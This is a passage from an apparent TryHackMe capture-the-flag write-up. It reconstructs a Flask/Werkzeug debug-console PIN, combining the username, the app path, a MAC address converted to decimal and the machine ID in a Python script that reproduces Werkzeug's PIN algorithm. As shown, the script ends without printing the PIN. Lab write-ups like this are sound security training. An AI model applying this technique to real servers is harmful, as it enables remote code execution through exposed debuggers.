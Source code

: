 - Then I need to convert it from hex to decimal :

![Alt text](<../../../assets/images/THMPics/Pasted image 20231228155729.png>)

- And the last thing is the machine id :

![Alt text](<../../../assets/images/THMPics/Pasted image 20231228154047.png>)

Now my script is ready, I can get the PIN just by executing it :

```python
import hashlib
from itertools import chain
probably_public_bits = [
    'mcskidy',# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name**'))
    '/home/mcskidy/.local/lib/python3.8/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '2838560867849',# str(uuid.getnode()),  /sys/class/net/eth0/address
    'aee6189caee449718070b58132f2e4ba'# get_machine_id(), /etc/machine-id
]

#h = hashlib.md5() # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
#h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

```
